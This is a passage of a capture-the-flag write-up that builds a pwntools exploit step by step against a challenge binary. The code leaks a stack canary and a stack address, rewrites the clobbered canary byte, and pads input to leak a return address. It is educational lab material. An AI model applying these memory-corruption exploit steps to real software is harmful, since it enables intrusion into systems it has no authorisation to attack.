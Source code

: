 ```python
stack_addr = u(tmp[7:].ljust(8, b"\x00"))
print(hex(stack_canary))
print(hex(stack_addr))
...
```

Lets test it.

![leak_test](./screenshots/leak_test.png)

Looks good.  Now lets focus on the second read.  The exploit on the first read overwrote the last byte of the stack canary so we need to repair it.  Add the next payload to our code.

```python
...
payload = b""
payload += b"B" * 10
payload += p64(stack_canary)
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)
...
```

We also need to provide another input to pass the check in main().

```python
...
# Second loop
p.recvuntil("Do you want to complete a survey?\n")
payload =  b"y"
with open("payload", "ab") as fp:
    fp.write(payload)
p.sendline(payload)
...
```

Now we have arrived at the second pass of getFeedback.  We can leak the return address this time.

```python
...
p.recvuntil("Do you like ctf?\n")
payload = b""
payload += b"B" * 26
with open("payload", "ab") as fp:
    fp.write(payload)
p.send(payload)

buf = p.recvuntil("Can you provide some extra feedback?\n")
main_addr = buf.split(b"BBBBBBBBBBBBBBBBBBBBBBBBBB")[1].split(b"\nAww")[0]
print(hex(u(main_addr.ljust(8, b"\x00"))))
...
```
